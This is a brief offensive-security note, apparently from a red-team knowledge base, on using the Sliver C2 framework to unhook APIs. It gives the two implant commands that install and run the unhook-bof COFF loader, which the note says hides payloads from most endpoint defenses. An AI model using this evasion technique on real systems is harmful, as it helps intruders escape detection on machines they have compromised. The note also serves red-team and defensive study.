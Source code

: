 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - security-endpoints
  - coff-loader
  - sliver
---
```

# Sliver

## 01 - Unhook APIs

> [!INFO]
> This will make your payload mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Install armory extension

```
sliver (IMPLANT_NAME) > armory install unhook-bof
```

Execute the COFF loader to unhook the APIs.

```
sliver (IMPLANT_NAME) > unhook-bof
```